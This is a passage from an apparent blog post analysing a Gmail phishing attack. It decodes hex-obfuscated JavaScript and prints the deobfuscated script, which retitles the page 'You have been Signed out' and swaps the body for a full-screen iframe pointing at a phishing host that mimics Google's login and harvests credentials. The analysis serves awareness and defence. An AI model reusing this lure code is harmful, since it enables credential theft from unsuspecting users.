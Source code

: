 So we have an array consisting of strings containing what looks like hex
characters.
Fortunately we can decode it to ASCII using Python real easy:

{% highlight python %}
>>> map(str, ["\x74\x69\x74\x6C\x65", "\x64\x6F\x63\x75\x6D\x65\x6E\x74", "\x59\x6F\x75\x20\x68\x61\x76\x65\x20\x62\x65\x65\x6E\x20\x53\x69\x67\x6E\x65\x64\x20\x6F\x75\x74", "\x6C\x69\x6E\x6B", "\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74", "\x74\x79\x70\x65", "\x69\x6D\x61\x67\x65\x2F\x78\x2D\x69\x63\x6F\x6E", "\x72\x65\x6C", "\x73\x68\x6F\x72\x74\x63\x75\x74\x20\x69\x63\x6F\x6E", "\x68\x72\x65\x66", "", "\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64", "\x68\x65\x61\x64", "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x54\x61\x67\x4E\x61\x6D\x65", "\x6F\x75\x74\x65\x72\x48\x54\x4D\x4C", "\x62\x6F\x64\x79", "\x3C\x69\x66\x72\x61\x6D\x65\x20\x73\x72\x63\x3D\x22\x68\x74\x74\x70\x3A\x2F\x2F\x65\x78\x71\x75\x69\x73\x69\x74\x65\x72\x65\x77\x6F\x6F\x64\x73\x2E\x74\x6F\x70\x2F\x61\x62\x6F\x75\x74\x75\x73\x2F\x6F\x75\x72\x74\x65\x61\x6D\x6D\x65\x64\x69\x61\x70\x61\x72\x74\x6E\x65\x72\x73\x2E\x68\x74\x6D\x6C\x22\x20\x73\x74\x79\x6C\x65\x3D\x22\x62\x6F\x72\x64\x65\x72\x3A\x20\x30\x3B\x77\x69\x64\x74\x68\x3A\x20\x31\x30\x30\x25\x3B\x68\x65\x69\x67\x68\x74\x3A\x31\x30\x30\x25\x22\x3E\x3C\x2F\x69\x66\x72\x61\x6D\x65\x3E"])
['title', 'document', 'You have been Signed out', 'link', 'createElement', 'type', 'image/x-icon', 'rel', 'shortcut icon', 'href', '', 'appendChild', 'head', 'getElementsByTagName', 'outerHTML', 'body', '<iframe src="http://exquisiterewoods.top/aboutus/ourteammediapartners.html" style="border: 0;width: 100%;height:100%"></iframe>']
{% endhighlight %}


Now we can substitute the variables with their values:

{% highlight javascript %}
window['document']['title'] = 'You have been Signed out';
try {
    (function() {
        var _0x8637x1 = window['document']['createElement']('link');
        _0x8637x1['type'] = 'image/x-icon';
        _0x8637x1['rel'] = 'shortcut icon';
        _0x8637x1['href'] = '';
        document['getElementsByTagName']('head')[0]['appendChild'](_0x8637x1)
    }())
} catch (e) {};
window['document']['body']['outerHTML'] = '<iframe src="http://exquisiterewoods.top/aboutus/ourteammediapartners.html" style="border: 0;width: 100%;height:100%"></iframe>'
{% endhighlight %}


Well, that was easy 😒 The only thing it does is set the favicon to... I think
they wanted to set it to the Google one but forgot to set the href? - and embed
an iframe containing the actual phising site. The actual phishing site is a
simple copy of the real Google login form with the difference that it posts
the captured email / password to an PHP script on some other hacked server.


## Lessons learned

Google Mail's phishing filter isn't as good as I thought (the mail went into my
inbox) which may also have been caused by the fact that the scammers seemed to
have captured a real Google Mail account which they used to send the mails.
The use of a data uri to set the displayed URL was a neat trick, even though
the code obfuscation wasn't as advanced as I initially thought.

